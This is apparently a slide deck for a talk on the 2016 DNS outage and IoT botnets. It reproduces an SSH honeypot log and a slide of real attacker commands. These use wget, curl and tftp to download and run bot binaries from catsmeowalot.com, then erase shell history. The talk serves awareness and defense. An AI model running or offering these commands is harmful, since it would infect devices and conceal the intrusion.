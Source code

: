 #HSLIDE

* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehats love cat pictures?

#HSLIDE

#HSLIDE

DNS

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

.. what about Artificial cardiac pacemaker?

#HSLIDE

2016-10-28 05:00:46+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] admin trying auth password
2016-10-28 05:00:46+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] admin authenticated with password
2016-10-28 05:00:49+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] starting service ssh-connection
2016-10-28 05:00:49+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] channel open
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] executing command "cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Opening TTY Log: log/tty/20161028-050050-abab97cc-0e.log
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] CMD: cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; rm -rf ./bash_history; history -c
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: cd /tmp
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: wget http://catsmeowalot.com/lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Starting factory <HTTPProgressDownloader: http://catsmeowalot.com/lmao.sh>
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: curl -O http://catsmeowalot.com/lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: busybox tftp catsmeowalot.com -c get tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: busybox tftp -r tftp2.sh -g catsmeowalot.com
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: rm -rf lmao.sh tftp1.sh tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: cd
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: rm -rf ./bash_history
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: history -c
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] exitCode: 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] sending request exit-status
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] sending close 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] exitCode: 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] received eof, sending ctrl-d to command
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] honeypot terminal protocol connection lost disconnected

#HSLIDE

```
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && chmod +x ayyx86 && ./ayyx86
cd /tmp && wget -q http://catsmeowalot.com/ayyarm && chmod +x ayyarm && ./ayyarm
cd /tmp && wget -q http://catsmeowalot.com/ayyi686 && chmod +x ayyi686 && ./ayyi686
cd /tmp && wget -q http://catsmeowalot.com/jackmypowerpc && chmod +x jackmypowerpc && ./jackmypowerpc
cd /tmp && wget -q http://catsmeowalot.com/ayyi586 && chmod +x ayyi586 && ./ayyi586
cd /tmp && wget -q http://catsmeowalot.com/jackmym86k && chmod +x jackmym86k && ./jackmym86k
cd /tmp && wget -q http://catsmeowalot.com/jackmysparc && chmod +x jackmysparc && ./jackmysparc
```

#HSLIDE?image=media/


#HSLIDE


Slides and more on Anycast and DNS:

```
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
```

#HSLIDE

* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)

